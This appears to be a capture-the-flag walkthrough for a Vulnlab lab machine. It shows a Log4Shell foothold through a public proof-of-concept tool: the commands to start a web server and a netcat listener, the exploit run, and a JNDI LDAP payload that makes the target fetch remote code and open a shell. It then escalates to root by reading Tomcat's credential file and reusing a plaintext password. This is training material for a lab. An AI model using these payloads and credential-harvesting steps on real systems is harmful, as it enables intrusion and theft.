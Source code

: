 

# Foothold

website seesm to be vulnerable for log5j

found in source code 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210541.png)


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210505.png)


script to use for exploit 

https://github.com/kozmer/log4j-shell-poc

starting web server 
```
python3 -m http.server 8080
```

starting listener 
```
nc -lvnp 8181
```

exploit 
```
python3 poc.py --userip 10.8.1.92 --webport 8080 --lport 8181

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.1.92:1389/a}

[+] Starting Webserver on port 8080 http://0.0.0.0:8080
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
```



![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213453.png)

and we got shell

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213559.png)



# Privesc



password in tomcat folder allows to login as root


```
cat /opt/tomcat/conf/tomcat-users.xml


<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>

```


```
tomcat@ip-10-10-10-7:~/conf$ su
Password: 
root@ip-10-10-10-7:/opt/tomcat/conf# whoami
root
root@ip-10-10-10-7:/opt/tomcat/conf# cd /root
root@ip-10-10-10-7:~# cat root.txt 
VL{25da7f42f4e279698c91c0ce911d51a9}
root@ip-10-10-10-7:~# ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 0a:82:7b:12:b8:e1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.67.198/18 brd 10.10.127.255 scope global dynamic eth0
       valid_lft 2179sec preferred_lft 2179sec
    inet6 fe80::882:7bff:fe12:b8e1/64 scope link 
       valid_lft forever preferred_lft forever

```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209215243.png)


